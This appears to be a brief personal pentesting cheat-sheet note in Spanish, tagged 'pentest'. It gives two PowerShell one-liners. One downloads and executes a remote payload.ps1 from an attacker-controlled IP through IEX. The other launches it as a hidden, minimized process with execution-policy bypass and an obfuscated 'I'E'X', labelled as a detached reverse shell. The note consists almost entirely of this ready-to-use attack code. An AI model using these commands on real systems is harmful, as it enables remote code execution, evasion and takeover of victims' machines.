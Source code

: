 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

## Descargar y ejecutar desde powershell

```cmd
IEX(New-Object Net.WebClient).DownloadString('http://192.168.5.126/payload.ps1')
```



## Reverse shell que no cuelgue de un proceso

```cmd
cmd /C START /MIN powershell -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c "I'E'X(New-Object Net.WebClient).DownloadString('http://192.168.5.126/payload.ps1')"
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
